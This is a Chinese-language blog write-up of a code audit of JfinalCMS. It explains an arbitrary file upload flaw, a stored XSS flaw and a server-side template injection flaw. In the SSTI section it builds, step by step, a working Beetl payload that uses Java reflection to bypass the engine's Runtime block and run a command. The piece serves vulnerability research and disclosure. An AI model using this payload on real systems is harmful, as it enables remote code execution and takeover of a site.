# 一次意外的代码审计----JfinalCMS审计

# 前言

   学了一两个月的Java代码审计，对一些审计有了一定了解了。所以决定审计一下JavaWeb CMS，随便申请一下CVE。  
   认真严肃的挑选了一波之后，我选择了这个CMS，可能是缘分，也可能是好玩吧。主要看的是这个项目有QQ群，可以加群讨论一下问题，方便更好的研究。先加群不说别的。[gitee地址](https://gitee.com/jflyfox/jfinal_cms)，[GitHub地址](https://github.com/jflyfox/jfinal_cms)。  


---

# 环境搭建

  环境的搭建很简单，几种方式可以选择。第一种直接git项目的源码，idea打开项目，然后idea会自动导入下载maven。  
  
第二种方式是去GitHub或者Gitee上下载发行版。  
[gitee下载地址](https://gitee.com/jflyfox/jfinal_cms/releases)  
[github下载地址](https://github.com/jflyfox/jfinal_cms/releases)

---

# 任意文件上传漏洞

[Arbitrary file upload vulnerability](https://samny.blog.csdn.net//details/105385042)文件上传漏洞存在于管理员后台中的模板管理。

  
  


---

## 漏洞分析

   断点调试，断点设置在`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManagerController.java`模板页面的操作的都是由FileManangerController.java控制。

1. `HttpServletRequest request = getRequest();`有点Java知识的人都认识这个,所以第一个断点设置在这里。  
   
2. 第二个断点，审计的上传漏洞，肯定设置在上传方法里。  
   

---

### 漏洞源码

`判断是否为空的操作`

```java
public JSONObject add() {
        Iterator<?> it = this.files.iterator();
        if (!it.hasNext()) {
            this.error(lang("INVALID_FILE_UPLOAD"));
            return null;
        }
```

   项目主说这里修改一下就好了，但默认是这样子的，可见开发者自以为是可以防止任意上传文件漏洞，但其实这里默认是这样子设置。  
  
   默认设置是一次最多上传5个文件，文件大小不超过16MB。  


```java
long maxSize = NumberUtils.parseLong(MAX_SIZE);
if (getConfig("upload-size") != null) {
    maxSize = Integer.parseInt(getConfig("upload-size"));
    if (maxSize != 0 && item.getSize() > (maxSize * 1024 * 1024)) {
        this.error(sprintf(lang("UPLOAD_FILES_SMALLER_THAN"), maxSize + "Mb"));
        error = true;
    }
}
```

   这里maxSize是默认为0。  
  
  
   下面的一段代码是判断是否只能上传图片，在配置文件`E:\Soures\jfinal_cms\src\main\resources\conf\filemanager.properties`下可以看到文件复写和上传文件大小设置是为0的（`0代表的是没有限制`），默认是可以上传其他文件（`upload-imagesonly=false`）。  


```java
if (!isImage(item.getName())
        && (getConfig("upload-imagesonly") != null && getConfig("upload-imagesonly").equals("true") || this.params
        .get("type") != null && this.params.get("type").equals("Image"))) {
    this.error(lang("UPLOAD_IMAGES_ONLY"));
    error = true;
}

if (error) {
    break;
}
```

   创建临时文件，后面会用到。作用是先将上传的文件以临时文件的存放着，然后把复制到上传目录下，重新命名删除临时文件。

```java
            tmpFile = new File(this.fileRoot + TMP_PATH + "filemanager_" + System.currentTimeMillis() + ".tmp");
            File filePath = tmpFile.getParentFile();
            if (!filePath.exists()) {
                filePath.mkdirs();
            }
            item.write(tmpFile);
        }
    }

} catch (Exception e) {
    logger.error("INVALID_FILE_UPLOAD", e);
    this.error(lang("INVALID_FILE_UPLOAD"));
}
```

   文件上传后的操作，也就是上面说到的复制重命名，最后将临时文件删除。

```java
    // file rename
    try {
        if (!error && tmpFile != null) {
            String allowed[] = {".", "-"};

            if ("add".equals(params.get("mode"))) {
                fileInfo = new JSONObject();
                String respPath = "";

                String currentPath = "";
                String fileName = params.get("_fileName");
                String filePath = "";
                try {
                    currentPath = params.get("currentpath");
                    respPath = currentPath;
                    currentPath = new String(currentPath.getBytes("ISO8859-1"), "UTF-8"); // 中文转码
                    currentPath = getFilePath(currentPath);
                } catch (UnsupportedEncodingException e) {
                    e.printStackTrace();
                }
                filePath = FileManagerUtils.rebulid(this.fileRoot + currentPath);

                LinkedHashMap<String, String> strList = new LinkedHashMap<String, String>();
                strList.put("fileName", fileName);
                fileName = (String) cleanString(strList, allowed).get("fileName");

                if (getConfig("upload-overwrite").equals("false")) {
                    fileName = this.checkFilename(filePath, fileName, 0);
                }

                File saveFile = new File(filePath + fileName);
                tmpFile.renameTo(saveFile);

                fileInfo.put("Path", respPath);
                fileInfo.put("Name", fileName);
                fileInfo.put("Error", "");
                fileInfo.put("Code", 0);
            } else if ("replace".equals(params.get("mode"))) {
                fileInfo = new JSONObject();
                String respPath = "";

                String fileName = "";
                String newFilePath = "";
                String saveFilePath = "";

                try {
                    newFilePath = params.get("newfilepath");
                    newFilePath = new String(newFilePath.getBytes("ISO8859-1"), "UTF-8"); // 中文转码
                    respPath = newFilePath.substring(0, newFilePath.lastIndexOf("/") + 1);
                    fileName = newFilePath.substring(newFilePath.lastIndexOf("/") + 1);
                    newFilePath = getFilePath(newFilePath);
                } catch (UnsupportedEncodingException e) {
                    e.printStackTrace();
                }

                saveFilePath = FileManagerUtils.rebulid(this.fileRoot + newFilePath);
                File saveFile = new File(saveFilePath);

                LinkedHashMap<String, String> strList = new LinkedHashMap<String, String>();
                strList.put("fileName", fileName);
                fileName = (String) cleanString(strList, allowed).get("fileName");

                if (getConfig("upload-overwrite").equals("false")) {
                    fileName = this.checkFilename(saveFile.getParent(), fileName, 0);
                }

                if (saveFile.exists()) {
                    // before bakup
                    bakupFile(saveFile);
                    // delete src file
                    saveFile.delete();
                }

                tmpFile.renameTo(saveFile);

                fileInfo.put("Path", respPath);
                fileInfo.put("Name", fileName);
                fileInfo.put("Error", "");
                fileInfo.put("Code", 0);
            } else {
                this.error(lang("INVALID_FILE_UPLOAD"));
            }

        }
    } catch (Exception e) {
        logger.error("INVALID_FILE_UPLOAD", e);
        this.error(lang("INVALID_FILE_UPLOAD"));
    }

    // 临时文件处理
    if (tmpFile.exists()) {
        tmpFile.delete();
    }

    return fileInfo;

}
```

---

## 总结

1. 开发者需要通过限制上传文件大小来限制一些文件的上传，但默认配置是没有限制，很可能是开发者为了自己开发方便，但最后忘记修改设置。
2. 上传文件，判断是否是上传图片之后，没有在做其他判断限制，然后导致任意文件上传漏洞。
3. 配置文件中默认是不开启`filemanager.upload-imagesonly`需要使用者手动设置。
4. 开发者仅仅在前端做了文件上传的白名单，后端没有没有进行校验，导致黑客可以绕过前端验证，上传任意恶意文件。（前端验证本文没有体现，但真的做了限制，有详情的童鞋可以去看看。）

---

# 存储型XSS漏洞

  
  


---

## 漏洞分析

   漏洞源码存在于`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\front\controller\PersonController.java`  
   第一部分功能有以下几个：

1. 将提交数据Json化
2. 根据用户Session判断用户id（数据库内的id）
3. 判断旧密码和新设置的密码是否正确
4. 判断Email的格式是否正确

   ```java
   public void save() {
   		JSONObject json = new JSONObject();
   		json.put("status", 2);// 失败

   		SysUser user = (SysUser) getSessionUser();
   		int userid = user.getInt("userid");
   		SysUser model = getModel(SysUser.class);

   		if (userid != model.getInt("userid")) {
   			json.put("msg", "提交数据错误！");
   			renderJson(json.toJSONString());
   			return;
   		}

   		// 第三方用户不需要密码
   		if (user.getInt("usertype") != 4) {
   			String oldPassword = getPara("old_password");
   			String newPassword = getPara("new_password");
   			String newPassword2 = getPara("new_password2");
   			if (!user.getStr("password").equals(JFlyFoxUtils.passwordEncrypt(oldPassword))) {
   				json.put("msg", "密码错误！");
   				renderJson(json.toJSONString());
   				return;
   			}
   			if (StrUtils.isNotEmpty(newPassword) && !newPassword.equals(newPassword2)) {
   				json.put("msg", "两次新密码不一致！");
   				renderJson(json.toJSONString());
   				return;
   			} else if (StrUtils.isNotEmpty(newPassword)) { // 输入密码并且一直
   				model.set("password", JFlyFoxUtils.passwordEncrypt(newPassword));
   			}
   		}

   		if (StrUtils.isNotEmpty(model.getStr("email")) && model.getStr("email").indexOf("@") < 0) {
   			json.put("msg", "email格式错误！");
   			renderJson(json.toJSONString());
   			return;
   		}
   ```

   `model.update();`方法是更新数据，将信息写入数据库。具体实习方法可以下一部分代码。  
   

```java
	model.update();
	UserCache.init(); // 设置缓存
	SysUser newUser = SysUser.dao.findById(userid);
	setSessionUser(newUser); // 设置session
	json.put("status", 1);// 成功

	renderJson(json.toJSONString());
}
```

---

   首先方法会进行一个判断，然后创建一个sql语句。

```java
public boolean update() {
	filter(FILTER_BY_UPDATE);
	
	if (_getModifyFlag().isEmpty()) {
		return false;
	}
	
	Table table = _getTable();
	String[] pKeys = table.getPrimaryKey();
	for (String pKey : pKeys) {
		Object id = attrs.get(pKey);
		if (id == null)
			throw new ActiveRecordException("You can't update model without Primary Key, " + pKey + " can not be null.");
	}
	
	Config config = _getConfig();
	StringBuilder sql = new StringBuilder();
	List<Object> paras = new ArrayList<Object>();
	config.dialect.forModelUpdate(table, attrs, _getModifyFlag(), sql, paras);
	
	if (paras.size() <= 1) {	// Needn't update
		return false;
	}
```

   创建数据库连接，更新数据。 可以看到执行完这步就会更新数据库内容。（`利用MySQL语句监控，可以看到最下面的一条是执行的sql语句`）  
  


```java
	// --------
	Connection conn = null;
	try {
		conn = config.getConnection();
		int result = Db.update(config, conn, sql.toString(), paras.toArray());
		if (result >= 1) {
			_getModifyFlag().clear();
			return true;
		}
		return false;
	} catch (Exception e) {
		throw new ActiveRecordException(e);
	} finally {
		config.close(conn);
	}
}

/**
```

---

## 总结

1. 我们可以看到整个数据更新的过程，我们没有看到任何的防护措施，过滤字符手段。

---

# SSTI模板注入漏洞

## 前言

   感谢长亭科技大佬@Lilc耐心指导，这个漏洞也是这位大佬挖的，我只是漏洞复现并给大家分享一下笔者构造SSTI模板注入漏洞payload经验。

---

  
   漏洞存在的位置在管理员后台模板修改下，可以修改模板代码，插入恶意代码等操作。插入一段恶意代码可导致远程代码执行。

---

### 漏洞详情

  


---

### 漏洞分析

   点击保存页面的首先会进入到`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManagerController.java`然后判断请求方法，是POST方法会判断是upload还是saveFile，如果是saveFile方法会跳转到`E:\Soures\jfinal_cms\src\main\java\com\jflyfox\modules\filemanager\FileManager.java`中的saveFile方法。  


```java
public JSONObject saveFile() {
        JSONObject array = new JSONObject();

        try {
            String content = this.get.get("content");
            content = FileManagerUtils.decodeContent(content);

            // before bakup
            bakupFile(new File(getRealFilePath()));

            FileManagerUtils.writeString(getRealFilePath(), content);
            array.put("Path", this.get.get("path"));
            array.put("Error", "");
            array.put("Code", 0);
        } catch (JSONException e) {
            logger.error("JSONObject error", e);
            this.error("JSONObject error");
        } catch (IOException e) {
            logger.error("IOException error", e);
            this.error("IOException error");
        }
        return array;
    }
```

   前期可以修改代码机制我们已经了解的很清楚了，没有做任何的防护措施。但这些远远达不到SSTI的要求。`判断一个系统或者CMS是否使用了任何一个模板引擎`，先有比较大众Java模板引擎有Velocity，Freemarker，而这款模板引擎是beetl，挖掘之间根本没有了解过。据查阅知道，这是一款国产的模板引擎。[官方地址](http://ibeetl.com/)，官网说有很多优势，感觉一般般，吹牛的水分比较大吧。在研究这个模板的时候，官方给[文档](http://ibeetl.com/guide/#/beetl/)真的很差，有些东西说的一知半解没有说清楚。  
  


---

#### 知识补充

   查阅官方文档，了解这款模板引擎调用Java方法和属性模式。  
  
   本文构造payload得有简单Java的反射机制基础。[推荐文章](https://www.cnblogs.com/haha12/p/4724204.html)，文章中用了一个简单案例再现了Java的反射。[推荐文章](https://blog.csdn.net/SECURE2/article/details/81099574?depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1&utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1),文章用很多解释是关于Java反射和类加载的知识内容。[新增][推荐视频](https://www.bilibili.com/video/BV1s4411U7x9?from=search&seid=13854513651556834308)  
[video(video-hkteTk7M-1587384668444)(type-bilibili)(url-<https://player.bilibili.com/player.html?aid=63805421)(image-https://ss.csdn.net/p?http://i0.hdslb.com/bfs/archive/3ea308d0ab04ed422f45dc47274940762348f4fa.jpg)(title-【Java反射机制】不懂反射机制不配当java程序员?)]>

#### Payload构造

   这里笔者将payload拆解了，方便更好的解读一下payload。由于beetl模板引擎禁止了`java.lang.Runtime`和`java.lang.Process`，所以这里不能直接调用进程来达到远程代码执行的效果。这里采用Java反射机制来达到效果，当然也有其他的方法，比例写文件等。读者们可以自行尝试。

```javascript
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

**先忽视上面的payload，下面会一步步解答，最后完整的payload**  


1. 我们且看第一行，按照上面给出简单案例方法，我们应该这样子就可以了`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(newInstance(),"calc")`
2. 但是直接String.class直接写模板是找不到的，所以我们得继续构造payload，将String.class转化`@java.lang.Class.forName("java.lang.String")`的形式，然后payload就变成下面这样子了。`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(newInstance(),"calc")`
3. 照道理上面就可以直接使用了，但是呢Runtime类没有无参构造方法，因此不能使用newInstance()方法来实例化。只能通过调用getRuntime()方法来进行实例化。所以newInstance()得替换成`@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null)`最终payload就变成了下面这样子。

   ```javascript
   ${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
   ```

---

# 总结

   遇到使用了模板的解析CMS可以根据模板解析语言尝试执行命令，若遇到函数警用的情况可以尝试一些Bypass方法，比例一些反射、反序列化、字节码修改等。SSTI注入难的其实如何构造Payload，构造好了之后一切自然而然了。

---

# 参考

<http://ibeetl.com/guide/#/beetl/basic?id=%e7%9b%b4%e6%8e%a5%e8%b0%83%e7%94%a8java%e6%96%b9%e6%b3%95%e5%92%8c%e5%b1%9e%e6%80%a7>
